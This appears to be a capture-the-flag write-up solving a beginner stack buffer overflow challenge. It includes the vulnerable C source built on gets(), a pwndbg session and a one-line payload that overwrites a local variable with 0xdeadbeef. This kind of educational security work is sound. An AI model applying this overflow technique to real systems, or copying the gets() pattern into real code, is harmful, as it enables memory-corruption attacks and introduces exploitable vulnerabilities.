 ```yaml
---
title: Level 02 Solution
updated: 2018-08-04 21:00
---
```


## The task

If you take a look at the source file, the task is to somehow get the 'trash' variable to equal the value `0xdeadbeef`.
This is a little hard, since we aren't reading into the 'trash' variable. So how do we approach this problem. Think about it for a while, then we'll move further.
Here's the source code:

```c
int main() {
    volatile int trash;
    char buffer[64];
    trash = 0;
    gets(buffer);
    if (trash == 0xdeadbeef) {
        char ans[] = {
            <redacted>
        };
        puts(ans);
    }
}
```

Ofcourse some lines have been redacted from the source. They're really nothing, just some basic obfuscation in order to prevent people from directly getting the flag using 'strings' or some similar tool.
In order to tackle this problem we need to understand how programs work when executing. We just need the details of how memory is affected when a program is executed.
Let's disassemble the code as it will become easier to follow along with what I'm saying.

```shell
...
0x080488af <+10>:	push   ebp
0x080488b0 <+11>:	mov    ebp,esp
0x080488b2 <+13>:	push   ecx
0x080488b3 <+14>:	sub    esp,0x64
...
```

These lines are important to understand what actually takes place in memory when a program runs.
`push ebp` actually saves the stack frame of the calling function. So basically what we're doing when running the program is calling the `main()` method. Inorder to know where to continue executing, the `ebp` of the calling function is saved.
`mov ebp, esp` is used to set a new stack frame base for the callee function. This is better explained along with the next line which is `sub esp, 0x64` ignoring the previous line. This sequence is what we call a Standard Entry Sequence. It is followed everytime a function is called.
We do a `sub` in order to reserve space on the stack for the local variables of the function. Together these memory locations constitue of a 'stack frame' also known as a 'Call Stack'. If you can see from the diagram below, we notice that the local variables are stored in contiguous memory locations. What if we could exploit this feature?

![Call Stack Layout By R. S. Shaw](https://upload.wikimedia.org/wikipedia/commons/d/d3/Call_stack_layout.svg)

But how do we exploit this? We need a way to overwrite the data of those memory locations. Narrowing it down further, the only way we can attack this(not really) is by providing user input, which is done using the `gets()` method. This is currently the only so called 'attack surface' for now. Let's take a look at how this function works using the man pages.

```shell
$ man gets
```

The description looks promising 'Never use this function'. But why? Scrolling further down, we can see why we should not use this function, ever. Basically there's no limit to how much gets reads, even if the buffer we read into is of a fixed size. And in our case it's 64 bytes, so we can bascially read beyond 64 bytes of data. So if we have an input large enough, we should be able to overwrite the data of the 'trash' variable.
For the sake of completeness, let's assume we have no idea how far the 'trash' variable is located on the stack. We can find this offset by using a special kind of string. I use [pwntools] to genereate this string, though you can do this manually. Let's do it.

```python
>>> from pwn import *
>>> cyclic(128)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab'
```

Now let's open our binary in the debugger and set a breakpoint at the comparision with `0xdeadbeef`. Then run it and input our special string.

```shell
pwndbg> break *0x080488cf
Breakpoint 1 at 0x80488cf
pwndbg> r
Starting program: /home/dylan/Documents/ASM/challenges/binary/02/main32
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, 0x080488cf in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 EAX  0x61616171 ('qaaa')
 EBX  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 ECX  0x80d9340 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0x80da87c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x80481a8 (_init) ◂— push   ebx
 ESI  0x80d9000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0xffffce98 ◂— 0x61616175 ('uaaa')
 ESP  0xffffce30 ◂— 0x0
 EIP  0x80488cf (main+42) ◂— cmp    eax, 0xdeadbeef
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x80488cf <main+42>     cmp    eax, 0xdeadbeef
   0x80488d4 <main+47>     jne    main+195 <0x8048968>
    ↓
   0x8048968 <main+195>    mov    eax, 0
   0x804896d <main+200>    mov    ecx, dword ptr [ebp - 4]
   0x8048970 <main+203>    leave
   0x8048971 <main+204>    lea    esp, [ecx - 4]
   0x8048974 <main+207>    ret

   0x8048975               nop
   0x8048977               nop
   0x8048979               nop
   0x804897b               nop
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp  0xffffce30 ◂— 0x0
01:0004│      0xffffce34 ◂— 0x40000
02:0008│      0xffffce38 ◂— 0x3
03:000c│      0xffffce3c ◂— 0x2
04:0010│      0xffffce40 ◂— 0x0
05:0014│      0xffffce44 ◂— 0x1000000
06:0018│      0xffffce48 ◂— 0x61616161 ('aaaa')
07:001c│      0xffffce4c ◂— 0x61616162 ('baaa')
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  80488cf main+42
Breakpoint *0x080488cf
```

If you're interested in knowing which debugger I use, it's pwndbg, you can get it [here](https://github.com/pwndbg/pwndbg#readme).
If we take a look at the `eax` value we see that it has changed from the original which was 0. So let's find the offset, again using pwn tools.

```python
>>> cyclic_find('qaaa')
64
```

We see that the 'trash' variable is located at an offset of 64 bytes, which is just after the size of our buffer array into which we read our input. So we essentially created what is called a 'stack overflow'.
Since the value can't fit in that fixed size buffer, it overflows into the next memory location, thus overwriting the data, which is what we wan't.
With the offset in hand it's only a matter of overwriting 'trash' with `0xdeadbeef` which is fairly simple. Let's get to it then...

```shell
$ python -c "print 'A'*64 + '\xef\xbe\xad\xde'" | ./main32
<flag_here>
```

And there you have it. I've only showed you how to exploit the 32-bit version of the binary. The 64-bit one can be exploited in the same way with only the offset changing. This is because address spaces are 64-bits. So the offset will be larger compared to a 32-bit binary.
Rest of the procedure will be the same. For more information on buffer overflow attacks please do check out the links below.

### Sites
[Phrack](http://phrack.org/issues/49/14.html)
[Functions and stack frames](https://en.m.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames)
[Call Stacks](https://en.wikipedia.org/wiki/Call_stack)

### Files
[Level 02](https://github.com/dsouzadyn/ctfing/tree/master/binary/02)
